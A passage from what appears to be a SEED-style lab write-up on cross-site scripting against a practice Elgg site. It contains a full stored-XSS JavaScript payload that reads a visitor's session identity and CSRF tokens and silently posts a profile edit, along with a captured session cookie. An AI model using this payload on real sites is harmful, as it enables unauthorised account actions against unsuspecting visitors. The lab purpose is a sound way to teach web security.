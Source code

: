 ```Request URL: http://www.xsslabelgg.com/action/profile/edit
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```
Then edit Samy's profile and figure out his guid as 47


![alt text](https://github.com/RubiaQayoum/Cross-Site-Scripting-Attack/blob/main/guid.png)

Now we want to modify the about me module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:

```
<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```
Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:
